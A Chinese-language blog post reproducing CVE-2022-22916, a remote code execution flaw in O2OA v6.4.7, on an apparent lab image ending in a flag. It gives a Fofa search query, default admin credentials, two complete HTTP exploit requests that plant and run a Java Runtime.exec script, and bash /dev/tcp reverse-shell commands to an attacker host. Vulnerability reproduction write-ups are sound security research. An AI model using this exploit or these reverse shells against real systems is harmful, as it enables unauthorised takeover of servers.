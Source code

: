 ```yaml
---
title: CVE-2022-22916 O2OA RCE远程命令执行
date: 2023-02-17 10:01:58
tags: [CVE漏洞,O2OA,RCE]
categories: CVE漏洞复现
---
```


###  影响范围

O2OA v6.4.7

Fofa: title == "O2OA" 

<!--more -->

### 一、O2OA描述

O2OA是一个基于J2EE分布式架构，集成移动办公、智能办公，支持私有化部署，自适应负载能力的，能够很大程度上节约企业软件开发成本的基于AGPL协议开放源代码的企业信息化系统需求定制开发平台解决方案。

### 二、漏洞描述

通过 /x_program_center/jaxrs/invoke 发现 O2OA v6.4.7 包含一个远程代码执行 (RCE) 漏洞。

### 三、影响范围

O2OA v6.4.7

Fofa: title == "O2OA"

### 四、漏洞复现

**1.拉取CVE-2022-22916镜像**

![image-20230217100414629](CVE-2022-22916-O2OA-RCE%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/image-20230217100414629.png)

**2.访问80端口映射的端口**

![image-20230217111600901](CVE-2022-22916-O2OA-RCE%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/image-20230217111600901.png)

O2OA的默认用户名和密码为xadmin\o2

![image-20230217111707553](CVE-2022-22916-O2OA-RCE%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/image-20230217111707553.png)

成功登入

**3.添加接口**

进入服务管理界面

![image-20230217111831587](CVE-2022-22916-O2OA-RCE%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/image-20230217111831587.png)

我们在此使用burp抓包然后伪造并发送此poc：

```http
POST /x_program_center/jaxrs/invoke?v=6.3 HTTP/1.1
Host: [your target host]
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Authorization: [your authorization]
Connection: close
Content-Type: application/json; charset=UTF-8
Content-Length: 475

{"name":"abc","id":"abc","alias":"","description":"","isNewInvoke":true,"text":"\n\nvar s = [3];\ns[0] = \"/bin/bash\";\ns[1] = \"-c\";\ns[2] = \"[command]\";\nvar p = java.lang.Runtime.getRuntime().exec(s);\nvar sc = new java.util.Scanner(p.getInputStream(),\"GBK\").useDelimiter(\"\\\\A\");\nvar result = sc.hasNext() ? sc.next() : \"\";\nsc.close();","enableToken":false,"enable":true,"remoteAddrRegex":"","lastStartTime":"","lastEndTime":"","validated":true}
```

[command]中填写反弹shell命令

```
bash -i >& /dev/tcp/10.0.0.127/6666 0>&1\
```

点击接口配置后抓到的包：

![image-20230217112229092](CVE-2022-22916-O2OA-RCE%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/image-20230217112229092.png)

获取authorization的值

![image-20230217123359958](CVE-2022-22916-O2OA-RCE%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/image-20230217123359958.png)

成功发送poc

刷新页面发现多了此接口：

![image-20230217112514611](CVE-2022-22916-O2OA-RCE%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/image-20230217112514611.png)

**4.反弹shell**

开启kali监听

![image-20230217121222188](CVE-2022-22916-O2OA-RCE%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/image-20230217121222188.png)

调用命令的poc:

```http
POST /x_program_center/jaxrs/invoke/abc/execute?v=6.3 HTTP/1.1
Host: [your target host]
Content-Length: 0
Accept: text/html,application/json,*/*
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
Authorization: [your authorization]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Content-Type: application/json; charset=UTF-8
Origin: http://[your target host]
Referer: http://[your target host]/x_desktop/index.html
Accept-Encoding: gzip, deflate
Cookie: 
Connection: close
```

此处由于cookie变更比较快直接在页面新建并运行：

```
var s = [3];
s[0] = "/bin/bash";
s[1] = "-c";
s[2] = "bash -i >& /dev/tcp/{kaliip}/{kaliport} 0>&1";
var p = java.lang.Runtime.getRuntime().exec(s);
var sc = new java.util.Scanner(p.getInputStream(),"GBK").useDelimiter("\\A");
var result = sc.hasNext() ? sc.next() : "";
sc.close();
```

![image-20230217124256072](CVE-2022-22916-O2OA-RCE%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/image-20230217124256072.png)

![image-20230217121458912](CVE-2022-22916-O2OA-RCE%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/image-20230217121458912.png)

反弹shell到攻击机上

查看id:

![image-20230217124325418](CVE-2022-22916-O2OA-RCE%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/image-20230217124325418.png)

**5.取得flag**

![image-20230217124401522](CVE-2022-22916-O2OA-RCE%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/image-20230217124401522.png)

本次漏洞复现到此结束
